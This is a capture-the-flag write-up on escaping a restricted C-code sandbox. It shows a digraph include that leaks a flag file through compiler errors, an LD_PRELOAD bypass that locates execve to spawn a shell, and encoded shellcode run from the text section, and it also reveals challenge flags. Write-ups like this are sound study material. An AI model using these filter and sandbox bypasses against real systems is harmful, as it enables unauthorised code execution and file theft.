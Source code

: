 # Level 3
```c
ssh level2@challenges.ringzer0team.com -p 10230 
password: FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd

RingZer0 Team Online CTF

C Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm,open,read,mmap,brk,sh,#,sys,\x" keyword

-----------------------------
Your C code:
```

I must admit that although this challenge wasn't that difficult it took me way to much time to find a reasonable solution. My first ideea was to write shellcode that would read `flag.txt` and dump its content. This is also the reason I wrote "[Testing Shellcodes](http://blog.dornea.nu/2016/08/23/testing-shellcodes/)". However, I've noticed that `\x` (hex code) couldn't be used as a keyword. Instead of giving up my first idea I should have think of some way how to re-write those hex codes to sth different: octal values or integer values of chars. That way I would have had bypassed the `\x` restriction.

First I'll try to write down my thoughts which lead to the solution. Afterwards I'll show some other cool solutions I've seen in the write-ups.

After trying hard I've decided to buy the hint:

```
#include alias for old system?
```

Then I was looking for another preprocessor directives meant to embed/include code in other files. But I didn't find sth useful. Besides that all preprocessor directives start with '#' which was a bad keyword. However, this assumption was wrong.

Somebody told me then that I should look for an "old function" which could do the same. Functions, you say. All'right! At (https://www.gnu.org/software/libc/manual/html_node/Function-Index.html)[https://www.gnu.org/software/libc/manual/html_node/Function-Index.html] you can find all libc functions available. But I had to do some filtering:

* since the open and read keywords weren't allowed, I wasn't able to create any file streams (FILE ) or file descriptors* (int fd)
that means that all functions taking a `FILE *` pointer or a file descriptor `int fd` weren't suitable
* the exec* family (execl, execlp, execle, execv, execvp, execvpe) was also not a good ideea since these functions were disabled by the `LD_PRELOAD` override
* `malloc` was also disabled by the override so no functions using malloc internally could be used

Finally I was desperately searching for some functions but I couldn't find one. I think I was overthinking the solution way to much: I was hoping to find a function (in the context of C code) which would then include `flag.txt` and try to interpret its content as valid C code. Since the flag file contains no valid code, the compiler will then produce some error messages which hopefully will dump the flag inside `flag.txt`. Unfortunately after "parsing" the libc functions index site I couldn't find anything.

Finally, somebody (thx nsr @nullsecurity.net IRC channel) told that there might be a way to accomplish "#include" without using "#". The hint I was after was called [Digraphs/Trigraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs). Especially for the C language the preprocessor is able to replace digraphs/trigraphs by their [single-character equivalents before any other processing](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C). This way I was able to trigger the error message I was hoping for:

```c
Your C code:
%:include "/home/level3/flag.txt"
DONE

-----------------------------
Compiling your code.
In file included from /tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:13:0:
/home/level3/flag.txt: In function ‘_24f9c1e3682289873677f3f7f79ea8df’:
/home/level3/flag.txt:1:1: error: ‘FLAG’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
 ^
/home/level3/flag.txt:1:1: note: each undeclared identifier is reported only once for each function it appears in
/home/level3/flag.txt:1:6: error: ‘BE79t326XS03122r5A4206tv395P64WB’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
      ^
/tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:16:1: error: expected ‘;’ before ‘}’ token
 }
 ^
Your code does not compile.
There we go: FLAG-BE79t326XS03122r5A4206tv395P64WB
```

## Other solutions

Bypass `LD_PRELOAD`
As I've noticed some functions (among these also `execve()`) were disabled due to the `LD_PRELOAD` override. Some [smart guy](https://ringzer0team.com/profile/2319) managed it to find in memory the real libc functions and thus bypassing the `LD_PRELOAD` override. Using [libcdb.com](http://libcdb.com/) you can identify the exact version of the used libc version by finding out the addresses of some functions (in his case `puts` and `printf`):

```c
Compiling your code.
Executing your code.
puts: 0x7ffe36166e30
printf: 0x7ffe3614b400
```

After finding the exact libc version, he/she downloaded the file and had a look at it:

```c
$ readelf -s libc-2.19_15.so | grep puts
   184: 000000000006fe30   399 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.2.5
   400: 000000000006fe30   399 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.2.5      <--- the one we have
   471: 00000000000fef10  1031 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.2.5      
   644: 0000000000100900   555 FUNC    GLOBAL DEFAULT   12 putsgent@@GLIBC_2.10
  1089: 000000000006e730   303 FUNC    WEAK   DEFAULT   12 fputs@@GLIBC_2.2.5
  1597: 000000000006e730   303 FUNC    GLOBAL DEFAULT   12 _IO_fputs@@GLIBC_2.2.5
  2199: 0000000000073a80    95 FUNC    GLOBAL DEFAULT   12 fputs_unlocked@@GLIBC_2.2.5

$ greadelf -s libc-2.19_15.so | grep execve
   987: 00000000000c1360   200 FUNC    GLOBAL DEFAULT   12 fexecve@@GLIBC_2.2.5
  1418: 00000000000c1330    34 FUNC    WEAK   DEFAULT   12 execve@@GLIBC_2.2.5    <--- the one we want
```  

By calculating the offset between `puts` and `execve` he/she could then build following code:

```c
int (*real_execve)(const char *, char *const *, char * const *) = (void*)puts + <OFFSET>;
char program[] = {47, 98, 105, 110, 47, 98, 97, 115, 104, 0};
real_execve(program, 0, 0);
```

Clever!

## Execute shellcode
Since I was initially trying to execute shellcode, I was very curios about any similar solutions. [killer2](https://ringzer0team.com/profile/5732) had a very elegant solution:

```c
// Place the shellcode inside the .text section
static const char __attribute__((section (".text"))) code[] = { 72,129,236,255,15,0,0,72,49,255,72,141,52,36,106,50,90,72,49,192,15,5,72,135,254,72,49,246,106,2,88,15,5,72,141,52,36,106,100,90,72,151,72,49,192,15,5,106,1,95,72,137,194,106,1,88,15,5,72,129,196,255,15,0,0,195 };

// Run the shellcode
(*(void(*)())code)();
```

Nice!